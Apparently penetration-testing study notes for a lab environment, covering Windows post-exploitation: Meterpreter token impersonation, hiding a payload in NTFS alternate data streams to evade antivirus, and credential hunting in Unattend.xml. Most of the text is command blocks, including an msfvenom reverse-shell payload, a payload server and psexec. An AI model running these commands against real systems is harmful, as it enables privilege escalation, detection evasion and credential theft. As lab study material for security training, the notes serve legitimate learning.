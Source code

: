**Access Token impersonation**
```
search rejetto
sysinfo
pgrep explorer
migrate 3512
getuid
getprivs

load incognito
list_tokens -u
impersonate_token "ATTACKDEFENSE\Administrator"
getuid
pgrep explorer
migrate 2512
getprivs
```

**Alternate Data Streams (ADS)**
Hide malware in resource stream (metadata). Evade basic signature based AVs or static analysis. 
```
type payload.exe > windowslog.txt:winpeas.exe
notepad windowslog.txt
start windowslog.txt:winpeas.exe
cd \
mklink wupdate.exe C:\Temp\windowslog.txt:winpeas.exe
wupdate
```

### Windows Credential Dumping
**Windows Password Hashes**
- SAM database (Security Account Manager)
- Encrypted with a syskey
- Elevated privileges are required to interact with LSASS process
- LM (LanMan)
- NTLM (NTHash)

**Searching for passwords in Windows configuration files**
- Unattended Windows Setup utility
	- Panther\Unattend.xml
	- Panther\Autounattend.xml

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST.. LPORT.. -f exe > payload.exe
python -m SimpleHTTPServer 80
^Would be better to use exploit to get meterpreter

search -f Unattend.xml
cd C:\\Windows\\Panther
dir
download unattend.xml
base64 -d password.txt
psexec.py Administrator@1.1.1.1
```
